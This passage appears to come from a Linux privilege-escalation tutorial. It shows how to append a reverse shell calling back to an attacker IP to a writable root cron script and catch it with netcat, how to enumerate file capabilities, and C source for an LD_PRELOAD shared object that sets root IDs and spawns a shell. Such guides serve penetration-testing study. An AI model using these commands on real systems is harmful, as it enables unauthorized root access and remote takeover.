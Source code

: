 Example:

```
# In /etc/crontab we saw:
* *     * * *   root    /usr/local/bin/backup_log.sh

# The script is writable:
ls -l /usr/local/bin/backup_log.sh
-rwxrwxrwx 1 root root 92 Feb 14 14:20 /usr/local/bin/backup_log.sh

# Append a reverse shell payload to the script (attacker machine 172.18.2.47)
echo "sh -i >& /dev/tcp/172.18.2.47/4444 0>&1" >> /usr/local/bin/backup_log.sh

# On attacker machine:
nc -lvp 4444
```

When the cron runs, the reverse shell connects back as root.

## Capabilities

Linux capabilities allow assigning specific privileges to executables without granting full root. Misconfigured capabilities (e.g., `cap_sys_admin`, `cap_dac_override`) can be abused.

Set capabilities with `setcap`, list with `getcap`.

Example to list capabilities recursively:

```
/usr/sbin/getcap -r / 2>/dev/null
```

Example output entries: `/usr/bin/ping cap_net_raw=ep`, `/usr/bin/vim cap_net_bind_service=+ep`.

Capabilities like `cap_setuid` or `cap_dac_override` can be especially powerful.

## Shared Libraries and LD_PRELOAD

Dynamic libraries can be controlled to alter binary behavior. If an environment variable like `LD_PRELOAD` is preserved by `sudo` for a given command, it can be abused to load a custom shared object and escalate privileges.

Example escalate.c to set root IDs and spawn a shell via `_init()`:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0, 0, 0);
	system("/bin/bash -p"); 
}
```

